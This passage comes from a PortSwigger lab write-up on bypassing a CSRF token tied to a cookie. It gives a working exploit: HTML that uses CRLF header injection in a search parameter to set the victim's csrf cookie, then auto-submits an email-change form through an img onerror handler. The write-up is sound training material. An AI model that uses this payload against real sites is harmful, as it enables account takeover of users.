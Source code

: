 Changing the `csrf` POST parameter would throw an "Invalid CSRF Token" error.

![](../../.gitbook/assets/portswigger-csrf-writeup-image-10.png)

So here's the exploit path:

1. Create a form to submit as per usual stuff.
2. Set the CSRF token value of the form to any value, like `evil`. 
3. Now, set the victim's `csrf` cookie to `evil` by using the search function and the `Set-Cookie` header. Set `SameSite` to `None` too.
4. Deliver the exploit via an `iframe` or `img` tag.
5. Use the `onerror` event to submit the document:

```html
<form class="login-form" name="change-email-form" action="https://0a8800d904cff49f81049da600c800d1.web-security-academy.net/my-account/change-email" method="POST">
    <input required type="email" name="email" value="evil@evil.com">
    <input required type="hidden" name="csrf" value="evil">
</form>
<img src="https://0a8800d904cff49f81049da600c800d1.web-security-academy.net/?search=a%0d%0aSet-Cookie:%20csrf=evil%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```
